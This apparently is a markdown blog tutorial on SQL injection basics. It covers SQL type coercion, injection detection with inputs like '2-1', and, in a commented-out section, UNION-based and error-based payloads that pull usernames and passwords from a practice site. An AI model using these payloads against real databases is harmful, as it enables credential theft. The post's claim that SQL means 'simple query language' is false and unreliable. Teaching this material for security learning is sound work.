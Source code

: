 ```yaml
---
layout: post
title:  SQL Injection Fundamentals
date:   2021-10-13 12:00:35 +0300
image:  '/assets/img/posts/fundamentals-of-sql-injection/sql2.jpg'
tags: [sql, sql-injection]
---
```

In this article you will learn SQL Injection fundamentals from 0 to hero.
<br>
In order to understand SQL injections, it is essential to observe those two concepts seperately.

## WHAT IS INJECTION ?
Injection refers to a broad variety of attack vectors. An attacker feeds the program with malicious input.
This input interpreted by the program and works for attacker's favour.This vulnerability occurs when the input is not controlled 
with meticulousness before or after input has taken.There are bunch of different kind of injections out there.
Examples are javascript ,ldap, xpath, host header, code, email header and crlf injections and SQL injection is one of them.
## WHAT IS SQL ?
SQL stands for **simple query language**. What it does is basically, managing data held in databases.
It is particularly useful in handling structured data. So whenever you ask for spesific part of data
you can request it in any order or concatanate it with different data held in different data table. 
There are bunch of different sql types, MySQL, SqLite, PostgreSQL, Microsoft SQL Server and etc. They are
actually more or less all the same except for the syntax diffrences between them.

### Understanding SQL
Let us examine the behavior of SQL codes by using [**sqliteonline**](https://www.sqliteonline.com)

![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql.jpg)
<br>

#### Why SQL ?
As you can see, there is a table consists of 3 columns and 21 rows.Those are basically **key** and **value** pairs.
In this spesific example `ID` is the **Key** value, `Name` and `Hint` are the **value**s which defined by that 
spesific 'ID' numer of **1**.However, as you can guess, it is not practical to summon whole data each 
time when we want to use or see one or couple parts of the data. In addition, we may want to combine different 
data parts together, so that is why we use SQL.

#### SQL Basics
Every table has its own name, and the name of the table above is **demo**.It is not needed to be an expert
SQL programmer, but you need to understand the principles of SQL programming, so let us start with some basics.

{% highlight sql %}
SELECT * FROM demo;
{% endhighlight %}
This command selects everything from demo table, fetches full content from the table.
You can see the output at the picture above. 
<br><br>
{% highlight sql %}
SELECT * FROM demo WHERE ID=3;
{% endhighlight %}
If you want to bring the informations related to 'ID' number of 3, you can add `WHERE` clause at the end of the query, and specify the filter.
![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql3.jpg)
<br><br>
{% highlight sql %}
SELECT * FROM demo WHERE ID=3 UNION SELECT * FROM demo WHERE Name="Chart";
{% endhighlight %}
You can concatenate two different queries together by using 'UNION', however result of the
queries have to have same amount of columns, otherwise it will not work. In this example, there is
only one table called **demo**, so naturally all the selections will have 3 columns.If the result of the select queries of different
tables have different amount of columns, you can not `UNION` the result of the selections together.
![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql4.jpg)
<br>
<br>
{% highlight sql %}
SELECT * FROM demo ORDER BY name ASC;
{% endhighlight %}
You can order the table with `ORDER BY` clause.You can either put column number with numerics, or column name
both `ASC` ascending and `DESC` descending order.
![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql5.jpg)
<br><br>
{% highlight sql %}
SELECT table_name FROM INFORMATION_SCHEMA.TABLES ORDER BY 1 ASC;
{% endhighlight %}
See all the tables existing in the currently active database.
![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql6.jpg)
<br><br>
{% highlight sql %}
SHOW DATABASES;
{% endhighlight %}
See all the created databases.
![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql7.jpg)

## PRIMITIVES OF DATABASE LOGIC
From now on, you know how sql works, and the idea behind that. In this section, before moving on to the exploitation phase, 
you will learn bare-bones of **SQLi**, database logic and do some brainstorm. In this section I will be using **MariaDB**, it is community
developed database management system for MySQL.

### MariaDB/MySQL
I fired up my terminal and run my mariadb service. Without selecting any database or any table, I will run the following query.
Try to guess the result of it. 
{% highlight sql %}
MariaDB [(none)]> SELECT 1;
{% endhighlight %}
It returns
{% highlight sql %}
+---+
| 1 | #>>> This is the column name
+---+
| 1 | #>>> This is the value corresponds to that column.
+---+
{% endhighlight %}
Does not make too much sense right ? Let us move further.
<br>
<br>
{% highlight sql %}
MariaDB [(none)]> SELECT 2-1;
{% endhighlight %}
How do you think this will end up ?
{% highlight sql %}
+-----+
| 2-1 |
+-----+
|   1 |
+-----+
{% endhighlight %}
From now on, we know that we can do **mathematical operations** with integers in sql, this is huge.
<br>
<br>
{% highlight sql %}
MariaDB [(none)]> SELECT '2-1';
{% endhighlight %}
It is same as before except for the single quotes.
{% highlight sql %}
+-----+
| 2-1 |
+-----+
| 2-1 |
+-----+
{% endhighlight %}
This time what we see is returning of a string value. It is reasonable because single or double quotes
are used for strings.
<br>
<br>
{% highlight sql %}
MariaDB [(none)]> SELECT '2'-'1';
{% endhighlight %}
It is hard to predict what is going to happen this time right ? Let us see.
{% highlight sql %}
+---------+
| '2'-'1' |
+---------+
|       1 |
+---------+
{% endhighlight %} 
Database actually performed the same mathematical operation as before when we did `SELECT 2-1`. That is because just like you,
database's mind get confused too, so it came up with an idea that 'Oh wait, I can cast them into integers !'.Now we are one more
step closer to understand the primitive behaviour of how databases work actually.
<br>
<br>
{% highlight sql %}
MariaDB [(none)]> SELECT '2'+'a';
+---------+
| '2'+'a' |
+---------+
|       2 |
+---------+
{% endhighlight %}
Hmm, brains burning right ? It is simple really, just like before database converted string value to integer, however it could not convert
**a** to any integer, so it considered it as **0**.By having this knowledge you should guess the output of this query.
<br>
<br>
{% highlight sql %}
MariaDB [(none)]> SELECT 'b'+'a';
{% endhighlight %}
You predicted it ?
{% highlight sql %}
+---------+
| 'b'+'a' |
+---------+
|       0 |
+---------+
{% endhighlight %}
This time two non-convertible to integer values given into single quoutes, database performed **0+0** this time.
<br>
<br>
{% highlight sql %}
MariaDB[(none)]> SELECT '2' '1';
{% endhighlight %}
This time instead putting an operation sign between those strings, we will left it blank.
{% highlight sql %}
+----+
| 2  |
+----+
| 21 |
+----+
{% endhighlight %}
As you can see, strings had been concatanated. So `SELECT '2' '1'` and `concat('2','1')` do the same thing.
<br>
<br>
{% highlight sql %}
MariaDB[(none)]> SELECT '2' '1' 'a';
{% endhighlight %}
You should be able to guess this one.
{% highlight sql %}
+-----+
| 2   |
+-----+
| 21a |
+-----+
{% endhighlight %}
Yes you are right, still string concat.
<br>
<br>
{% highlight sql %}
MariaDB[(none)]> SELECT '2' '1' 'a'-1;
{% endhighlight %}
From now on we know that, `'a'-1` will result -1. So this time instead of string concat, it will substract
-1 from 21.
{% highlight sql %}
+---------------+
| '2' '1' 'a'-1 |
+---------------+
|            20 |
+---------------+
{% endhighlight %}
<br>
<br>
There are few operants that you need to know.<br>
`^`=XOR operator
`!`=NOT operator

### Discipline
We have discovered some primitive behaviours of the database. Now we need to understand
which discipline we need to adopt to find a sql injection. 

Lets say there is a back end code running at the server just like that.

PSEUDO CODE
{% highlight python %}
id=request.get('id')
query="SELECT * FROM news WHERE id ="+id
result = db.execute(query)

if result.size()>0:
    for i in result:
        print(i.title)
else:
    print("No news")
{% endhighlight %}
This is the pseudo code to illustrate possible setup working on a web server to bring html document.
However we do not have access to this backend code, so what we are trying to do is that, we need to observe
the behavior of the responds to see if there is an injection possiblity.

Now lets say there are two html pages, one for id '1', and one for id '2':

ID1
{% highlight html %}
<h1>This is html document for ID 1</h1>
{% endhighlight %}
ID2
{% highlight html %}
<h1>This is html document for ID 2</h1>
{% endhighlight %}

While we dont have access to backend code, we can modify url.
{% highlight html %}
www.xyz.com/?id=
{% endhighlight %}
We can bring one of those two html documents by passing the related ID number to the `?id=` parameter.
We need to make requests for `?id=1` and `?id=2-1` in order to test if the application is vulnerable or not. 
Both will bring the first html document which has ID1 if the backend code does  not have any input validation 
or any security implementations for SQLi. In this case the pseudo code I have provided does not have any, 
so the code is vulnerable to SQLi.

#### Principles
- We need to determine an initial, referance point for our examination.
In this case, it is html document of ID1 which we trying to return.
- Try to access to the initial point with different methods.
In this case we forced database to make that 2-1 operation in order to reach to the determined initial point.
We do not have to use 2-1 as the payload. For example "`?id=1 AND 1=1`" would
return the same page since the endpoint is vulnerable. There are tons of payloads you can use for detection of an injection. Just like mentioned above, the point
is to reach our referance point with unexpected paremeter.
<br>

The question is that, what now ? How we can turn this vulnerability to our favour ? <br>

<!-- This is where `UNION` saves the day. -->
<!-- <br> -->
<!-- Instead of passing `1` or `2` or `2-1` into the `?id=` field, we can pass `1 UNION SELECT (rest of the query)`<br> -->
<!-- As you remember that is the code at the back end. -->
<!-- {% highlight python %} -->
<!-- query="SELECT * FROM news WHERE id ="+id -->
<!-- {% endhighlight %}  -->
<!-- `www.xyz.com/?id='1 UNION SELECT .....'` <br> -->
<!-- <br>Query will run this for http request above-> `SELECT * FROM news WHERE id=1 UNION SELECT (rest of the query)` -->
<!-- <br> However at this point of time, we have two problems.<br> -->
<!-- 1-What I will select in my own query ? What will replace the ,I do not know anything about the database.<br> -->
<!-- 2-`UNION` has its limitations, the number of columns that return for each query should match.<br> -->
<!-- It is time to do some real sql injection on a web page. -->

<!-- ## VULNWEB - UNION SQLi -->
<!-- <http://test.php.vulnweb.com> is a vulnerable website for pentesting practice. Navigate to the web page. -->
<!-- ### Remembering the principles -->
<!-- As we talked it about before, we have a principle that has two parts. -->
<!-- <br> -->
<!-- 1-Determine your referance point -->
<!-- <br> -->
<!-- 2-Find a way to get back to that referance point with unexpected behavior. -->
<!-- <br> -->
<!---->
<!-- ### Making sure of SQL injection's existence -->
<!-- Navigate to <http://testphp.vulnweb.com/listproducts.php?cat=1> <br>This will be our referance point.<br><br> -->
<!-- Than to <http://testphp.vulnweb.com/listproducts.php?cat=2> <br>As we see different cat id brings different items from table.<br><br> -->
<!-- Than go for <http://testphp.vulnweb.com/listproducts.php?cat=2-1> <br><br>We tried an unexpected behavior, and eventually returned to our referance point. -->
<!-- <br>Thus, now it is certain that this web site vulnerable to sql injection. -->
<!-- <br>And this is because there is no **input validation** in the source code that is running on server side -->
<!-- and anybody can pass whatever value they want in the input field, in this case in the `?id=` field. -->
<!-- <br> -->
<!-- ### Guessing the design -->
<!-- If you observe the url, you can guess there is a table named `listproducts` and a column named `cat`.<br> -->
<!-- Backend code may work like that:<br> -->
<!-- {% highlight sql %} -->
<!-- SELECT (some unknown column names) FROM listproducts WHERE cat= -->
<!-- {% endhighlight %} -->
<!-- Of course those names are not the same like that -->
<!-- at the source code, so we still do not know any names from the database. -->
<!-- And of course it may not work like that, just like I said, it is guessing. -->
<!-- <br> -->
<!-- After observing the behavior of the test.php.vulnweb, this pseudo code seems appropriate. -->
<!-- {% highlight python %} -->
<!-- id=request.get('id') -->
<!-- query="SELECT (some unknown column names) FROM listproducts WHERE cat="+id -->
<!-- result = db.execute(query) -->
<!---->
<!-- if result.size()>0: -->
<!--     for i in result: -->
<!--         print(i.title) -->
<!--         print(i.img) -->
<!--         print(i.description) -->
<!--         print(i.author) -->
<!-- else: -->
<!--     pass -->
<!-- {% endhighlight %} -->
<!-- ### Finding the column count -->
<!---->
<!-- As we talked before, after finding the vulnerability with `2-1`, it is crucial to run our own queries.<br> -->
<!-- `UNION` will be starting point for this example. However we need to -->
<!-- know how many columns there are.<br>The way to do that is enumerate: <br>`1 UNION SELECT 1` to `1 UNION SELECT 1....x`. -->
<!-- <br> -->
<!-- ![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql10.jpg) -->
<!-- <br> -->
<!-- As you can see, when the number of columns are not match, this happens. -->
<!-- <br><br>To give you better understanding about this -->
<!-- I will demonstrate this on my local machine with a test table. -->
<!-- {% highlight sql %} -->
<!---->
<!-- MariaDB [test]> SELECT * FROM users; -->
<!-- +----------+----------+-----------+ -->
<!-- | PersonID | LastName | FirstName | -->
<!-- +----------+----------+-----------+ -->
<!-- |        1 | Baris    | Burak     | -->
<!-- |        1 | Baris    | Burak     | -->
<!-- |        1 | Baris    | Burak     | -->
<!-- |        1 | Baris    | Burak     | -->
<!-- |        2 | Baris2   | Burak2    | -->
<!-- |        3 | Baris3   | Burak3    | -->
<!-- +----------+----------+-----------+ -->
<!---->
<!-- MariaDB [test]> SELECT * FROM users WHERE PErsonID=3; -->
<!-- +----------+----------+-----------+ -->
<!-- | PersonID | LastName | FirstName | -->
<!-- +----------+----------+-----------+ -->
<!-- |        3 | Baris3   | Burak3    | -->
<!-- +----------+----------+-----------+ -->
<!---->
<!-- MariaDB [test]> SELECT * FROM users WHERE PErsonID=3 UNION SELECT 1; -->
<!-- ERROR 1222 (21000): The used SELECT statements have a different number of columns -->
<!-- MariaDB [test]> SELECT * FROM users WHERE PErsonID=3 UNION SELECT 1,2; -->
<!-- ERROR 1222 (21000): The used SELECT statements have a different number of columns -->
<!-- MariaDB [test]> SELECT * FROM users WHERE PErsonID=3 UNION SELECT 1,2,3; -->
<!-- +----------+----------+-----------+ -->
<!-- | PersonID | LastName | FirstName | -->
<!-- +----------+----------+-----------+ -->
<!-- |        3 | Baris3   | Burak3    | -->
<!-- |        1 | 2        | 3         | -->
<!-- +----------+----------+-----------+ -->
<!---->
<!-- {% endhighlight %} -->
<!-- There are three columns for this table, `Person ID`, `LastName`, `FirstName`.It means the second query I will run after `UNION` should also -->
<!-- have three columns to create an appropriate table. It actually makes sense, because it would be weird to have a concatanated table  -->
<!-- with a blank column. -->
<!-- As you can see I am getting the same error as the error on website when the number of columns are not match. -->
<!-- <br> -->
<!-- <br> -->
<!-- ![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql9.jpg) -->
<!-- <br> -->
<!-- After enumerating until 11, we finally returning to our referance point.Thus we can tell the table has 11 columns in total. -->
<!-- Scroll down to the bottom, you should see someting different. -->
<!-- <br> -->
<!-- <http://testphp.vulnweb.com/listproducts.php?cat=-00 UNION SELECT 1,2,3,4,5,6,,8,9,10,11> -->
<!-- <br> -->
<!-- ![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql8.jpg) -->
<!-- <br> -->
<!-- There is one more entry right now. However we see 7, 2 and 9. It means that web application prints out the informations to the -->
<!-- html document that contained in second, seventh and nineth columns in the table.<br> -->
<!-- It means that we can run whatever we want in that areas to extract information from the database. For example lets run `version()` -->
<!-- helper function at second, seventh or nienth column to see version of the server that running the database. -->
<!-- <br> -->
<!-- <br> -->
<!-- <http://testphp.vulnweb.com/listproducts.php?cat=1%20UNION%20SELECT%201,version(),3,4,5,6,7,8,9,10,11> -->
<!-- <br> -->
<!-- ![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql11.jpg) -->
<!-- <br> -->
<!-- After this point of time, all the helper functions are available for you.You can run the following to avoid first part of the -->
<!-- sql query to only see your own query by selecting something non existent from the database. -->
<!-- <br> -->
<!-- <http://testphp.vulnweb.com/listproducts.php?cat=8217582175821%20UNION%20SELECT%201,version(),3,4,5,6,7,8,9,10,11> -->
<!-- ### Extracting the table names -->
<!-- First thing to do is to gather all the table names exists in the database.For MySQl it is `information_schema` which provides -->
<!-- access to database metadata.We are going to use methods of that information_schema to enumerate the database.  -->
<!-- Even though helper function's syntax or names will vary database to database, there is always a functionality doing -->
<!-- the same thing with for different database. -->
<!-- <br> -->
<!-- {% highlight sql %} -->
<!-- MariaDB [testdb]> SELECT table_name FROM information_schema.tables WHERE table_schema=database(); -->
<!-- +------------+ -->
<!-- | table_name | -->
<!-- +------------+ -->
<!-- | users      | -->
<!-- +------------+ -->
<!-- {% endhighlight %} -->
<!-- With `tables` method belongs to `information_schema`, we can query the table names.<br> -->
<!-- Now lets imply this method to the acuart database. -->
<!-- <br> -->
<!-- <http://testphp.vulnweb.com/listproducts.php?cat=-00 UNION SELECT 1,2,3,4,5,6,table_name,8,9,10,11 FROM information_schema.tables WHERE table_schema=database()> -->
<!-- ![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql12.jpg) -->
<!-- <br> -->
<!-- Awesome, we got all the table names storing in the acurat db. -->
<!-- ### Extracting the column names -->
<!-- Just like `tables`, there is also `columns` method belongs to `information_schema`.However, to use that target-spesific, first -->
<!-- we needed to see table names. Otherwise it will bring all the columns exists in the database, such a mess. -->
<!-- {% highlight sql %} -->
<!-- MariaDB [testdb]> SELECT column_name FROM information_schema.columns WHERE table_name='users'; -->
<!-- +---------------------+ -->
<!-- | column_name         | -->
<!-- +---------------------+ -->
<!-- | PersonID            | -->
<!-- | LastName            | -->
<!-- | FirstName           | -->
<!-- | PersonID            | -->
<!-- | FirstName           | -->
<!-- | LastName            | -->
<!-- | USER                | -->
<!-- | CURRENT_CONNECTIONS | -->
<!-- | TOTAL_CONNECTIONS   | -->
<!-- +---------------------+ -->
<!-- {% endhighlight %} -->
<!-- Now lets imply this method to the acuart database.  -->
<!-- <br> -->
<!-- <http://testphp.vulnweb.com/listproducts.php?cat=-00 UNION SELECT 1,2,3,4,5,6,column_name,8,9,10,11 FROM information_schema.columns WHERE table_name="users"> -->
<!-- ![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql13.jpg) -->
<!-- <br> -->
<!-- We now have got all the column names in the 'users' table, 'uname' and 'pass' columns are intresting : ) -->
<!-- <br> -->
<!-- ### Extracting values from columns -->
<!-- After this point, our aim is certain, and simple. We need to get 'uname' and 'pass' fields in users table. -->
<!-- One simple query to get those values, for example just like this.  -->
<!-- {% highlight sql %} -->
<!-- MariaDB [testdb]> SELECT FirstName from users; -->
<!-- +-----------+ -->
<!-- | FirstName | -->
<!-- +-----------+ -->
<!-- | Burak     | -->
<!-- | Burak2    | -->
<!-- | Burak3    | -->
<!-- +-----------+ -->
<!-- {% endhighlight %} -->
<!-- So lets imply this to acuart. -->
<!-- <br> -->
<!-- <http://testphp.vulnweb.com/listproducts.php?cat=-00 UNION SELECT 1,2,3,4,5,6,concat("Username:",uname, " Password:",pass),8,9,10,11 FROM users> -->
<!-- ![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql14.jpg) -->
<!-- **Congrats !!** we got the username and password fields. -->
<!-- ### Concat method -->
<!-- As you see above, I used concat for string formatting.Lets see how it is working from our example database. -->
<!-- {% highlight sql %} -->
<!-- MariaDB [testdb]> SELECT concat("FN:",FirstName, "  LN:",LastName) from users; -->
<!-- +-------------------------------------------+ -->
<!-- | concat("FN:",FirstName, "  LN:",LastName) | -->
<!-- +-------------------------------------------+ -->
<!-- | FN:Burak  LN:Baris                        | -->
<!-- | FN:Burak2  LN:Baris2                      | -->
<!-- | FN:Burak3  LN:Baris3                      | -->
<!-- +-------------------------------------------+ -->
<!-- {% endhighlight %} -->
<!-- ### Guess correction -->
<!-- As you remember, at the `Guessing the design` heading, we come up with a possible query that runs at the server -->
<!-- just by observing the behaviour of the web application. After doing more scans in the database, I see that, that guess -->
<!-- we made above, is kind of close to the real design. -->
<!---->
<!-- <http://testphp.vulnweb.com/listproducts.php?cat=-00 UNION SELECT 1,pshort,3,4,5,6,title,img,(SELECT aname FROM artists WHERE artist_id=1),10,(SELECT cname FROM categ WHERE cat_id=1) FROM pictures WHERE cat_id=1> -->
<!-- <br> -->
<!-- Gives the same result as: -->
<!-- <br> -->
<!-- <http://testphp.vulnweb.com/listproducts.php?cat=1> -->
<!---->
<!-- ## VULNWEB - ERROR BASED SQLi -->
<!---->
<!-- As you remember, this is the pseudo code for testphp.vulnweb website. -->
<!---->
<!-- {% highlight python %} -->
<!-- id=request.get('id') -->
<!-- query="SELECT (some unknown column names) FROM listproducts WHERE cat="+id -->
<!-- #Try: -->
<!-- result = db.execute(query) -->
<!-- #Except: -->
<!--     #pass -->
<!---->
<!-- if result.size()>0: -->
<!--     for i in result: -->
<!--         print(i.title) -->
<!--         print(i.img) -->
<!--         print(i.description) -->
<!--         print(i.author) -->
<!-- else: -->
<!--     pass -->
<!-- {% endhighlight %} -->
<!-- I have added those comment lines intentionally.If we had those `Try` and `Except` lines, or any other exception handling method -->
<!-- with another language that is used in the server side code, we could not have see this error message. -->
<!-- ![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/15.jpg) -->
<!-- <br> -->
<!-- Spesifically speaking for the pseudo code above, when `execute(query)` method returns a result to the `result` variable from database. `if result.size()>0` means that, if we have returned something from query, print it, -->
<!-- it can be both the intented and expected query result, or in this case an error message. If we had an exception handling, result -->
<!-- variable would not be declared at all if the query result is not accurate. -->
<!-- <br> -->
<!-- This is a **catastrophic mis-coding** for the server, because we can use this error message to extract data from it. -->
<!-- <br> -->
<!-- ### Extract value method -->
<!---->
<!-- As in the example, database return the unexpected string in error message. That means that, we see what we give in the input -->
<!-- field.Instead of seeing what we give as a string, it is possible that to return values from database.<br> -->
<!-- There is a helper function that we can use, which is `ExtractValue()`. -->
<!---->
<!-- <http://testphp.vulnweb.com/listproducts.php?cat=extractvalue(rand(),concat(1,database()))> -->
<!-- <br> -->
<!-- Query will look like this on the server side. -->
<!-- {% highlight python %} -->
<!-- SELECT (some unknown column names) FROM listproducts WHERE cat=extractvalue(rand(),concat(1,database())) -->
<!-- {% endhighlight %} -->
<!-- <br> -->
<!-- ![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql16.jpg) -->
<!-- <br> -->
<!-- This time we have returned a function result as an error message and modified the function as we wanted. -->
<!-- <br> -->
<!-- As you can see from the picure, result of the `database()` helper function **acuart** is in the error message. -->
<!-- ### Extract value with subquery -->
<!-- Instead of passing `database()` function as a second argument for `ExtractValue()` method, creating subquery with `()` will -->
<!-- allow you to write your own queries. -->
<!-- <br> -->
<!-- **I am assuming that you read the previous chapters and got the table names already for this example.** -->
<!-- <br> -->
<!-- <http://testphp.vulnweb.com/listproducts.php?cat=extractvalue(rand(),concat(1,(SELECT concat(%22Username: %22,uname,%22  Password:%22,pass) FROM users)))> -->
<!-- <br> -->
<!-- ![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql17.jpg) -->
<!-- <br> -->
<!---->
<!---->
<!-- ## (1' and 1=1 #) AND (1 ' or 1=1 #) -->
<!---->
<!-- We have figured out the existence of the SQLi with **2-1**.However this due to the fact that, the code at the backend is -->
<!-- written in this syntax: -->
<!-- {% highlight python %} -->
<!-- query="SELECT * FROM news WHERE id ="+id -->
<!-- {% endhighlight %} -->
<!-- When we make a request to the `www.xyz.com/?id=2-1`, the server side code interpret and runs query like this: -->
<!-- {% highlight sql %} -->
<!-- SELECT * FROM news WHERE id = 2-1 -->
<!-- --Which returns -->
<!-- +-----+ -->
<!-- | 2-1 | -->
<!-- +-----+ -->
<!-- |   1 | -->
<!-- +-----+ -->
<!-- {% endhighlight %} -->
<!---->
<!-- However the code could have  written like this either: -->
<!-- {% highlight python %} -->
<!-- id=request.get('id') -->
<!-- query="SELECT (some unknown column names) FROM listproducts WHERE cat ='" + id + "'" -->
<!-- #OR -->
<!-- id=request.get('id') -->
<!-- query=f"SELECT (some unknown column names) FROM listproducts WHERE cat  ='{id}'" -->
<!-- {% endhighlight %} -->
<!-- When this is the case, if you pass **2-1** to the parameter and make the same `www.xyz.com/?id=2-1` request, -->
<!-- the query would interpreted like the following, because string formatting is different in this case. As  -->
<!-- we discussed, both `'1'` and `1` parameters passed to the query will return the same result but `'2-1'` will not. -->
<!-- {% highlight sql %} -->
<!-- SELECT * FROM news WHERE id = '2-1' -->
<!-- --Which returns -->
<!-- +-----+ -->
<!-- | 2-1 | -->
<!-- +-----+ -->
<!-- | 2-1 | -->
<!-- +-----+ -->
<!-- {% endhighlight %} -->
<!-- When this is the case, we need to escape those single quotes which are surrounding the parameter in order to make our own operations -->
<!-- on the database.  -->
<!-- <br> -->
<!-- This is where we need to use those `'or 1=1 #` or `'and 1=1 #`. -->
<!---->
<!-- **Let me remind you the discipline we should follow** -->
<!-- <br> -->
<!-- 1-Declare a reference point -->
<!-- <br> -->
<!-- 2-Try to get back there with an unexpected behavior -->
<!-- <br> -->
<!-- Lets use `' and 1=1 #` to make the request like this `www.xyz.com/?id=1' and1=1 #`. -->
<!---->
<!-- {% highlight python %} -->
<!-- query=f"SELECT * FROM news WHERE id ='{1' and 1=1 #}'" -->
<!-- {% endhighlight %} -->
<!-- {% highlight sql %} -->
<!-- SELECT - FROM new WHERE id = '1' and 1=1 -->
<!-- {% endhighlight %} -->
<!-- This will bring entries which have id of **1**, and means that web application vulnerable to SQLi, from now on you can do everything same as before -->
<!-- to extract data the database. -->
<!---->
<!-- ## VULNWEB - BLIND SQLi -->
<!---->
<!-- As you remember this was the pseudo code for testphp.vulnweb. -->
<!-- {% highlight python %} -->
<!-- id=request.get('id') -->
<!-- query="SELECT (some unknown column names) FROM listproducts WHERE cat="+id -->
<!-- result = db.execute(query) -->
<!---->
<!-- if result.size()>0: -->
<!--     for i in result: -->
<!--         print(i.title) -->
<!--         print(i.img) -->
<!--         print(i.description) -->
<!--         print(i.author) -->
<!-- else: -->
<!--     pass -->
<!-- {% endhighlight %} -->
<!-- Lets make some changes to think what would have happened if source code for testphp.vulnweb would be like following. -->
<!---->
<!-- {% highlight python %} -->
<!-- id=request.get('id') -->
<!-- query="SELECT (some unknown column names) FROM listproducts WHERE cat="+id -->
<!-- try: -->
<!--     result = db.execute(query) -->
<!-- except: -->
<!--     print("Error !!!") -->
<!---->
<!-- if result.size()>0: -->
<!--     #for i in result: -->
<!--     #    print(i.title) -->
<!--     #    print(i.img) -->
<!--     #    print(i.description) -->
<!--     #    print(i.author) -->
<!--     print("Query succesfull !") -->
<!-- else: -->
<!--     pass -->
<!-- {% endhighlight %} -->
<!-- If this was the case, we could not see any result of the query on the screen, neither -->
<!-- images nor titles etc. Also can not perform error based sqli due to exception handling added.How we can extract any data, even make sure there is a sql injection vulnerability when our eyes are blind ? -->
<!-- <br> -->
<!-- <br> -->
<!-- This whole post is a transcript of Mehmet Deniz İnce's live broadcast.  -->
<!-- If you know the lagnuage, you can watch the original version [here](https://www.youtube.com/watch?v=WtHnT73NaaQ&t=3577s). -->
<!-- <br> -->
<!-- To be continued -->
